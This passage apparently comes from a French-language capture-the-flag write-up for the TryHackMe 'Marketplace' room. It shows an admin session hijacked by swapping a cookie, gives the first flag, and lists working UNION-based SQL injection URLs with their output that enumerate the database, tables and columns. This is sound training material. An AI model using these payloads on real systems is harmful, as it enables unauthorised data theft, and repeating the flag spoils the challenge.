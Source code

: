 Dans le mode développeur de firefox touche F12, dans storage on modifie la valeur du cookie avec celui de l'administrateur.  

**What is flag 1?**

![page10](./Task1-10.png) 

Maintenant on peut accéder panneau de control administrateur.  
On trouve notre premier flag qui est : THM{c37a63895910e478f28669b048c348d5}    

![page11](./Task1-11.png)

On ajoutant ' à la fin de l'url on obtient une erreur sql donc le site est vulnérable au injection SQL.    

On fait des injections pour récupérer les informations que l'on veut.  

```text
http://marketplace.thm/admin/?user=user=1 AND 1=2 union select database(),@@version,1,1
User 8.0.21
ID: marketplace
Is administrator: true 

En tout il y a 4 champs, on voit que le nom de la basse de donnée est marketplace.   

http://marketplace.thm/admin/?user=user=1 AND 1=2 union select group_concat(table_name),1,1,1 from information_schema.tables where table_schema=database()-- 

 User 1
ID: items,messages,users
Is administrator: true 

On récupère des noms de table.

http://marketplace.thm/admin/?user=user=1 AND 1=2 union select group_concat(column_name),1,1,1 from information_schema.columns where table_schema=database()--
id,author,title,description,image,id,user_from,user_to,message_content,is_read,id,username,password,isAdministrator

On récupère des noms de table.   

User 1
```
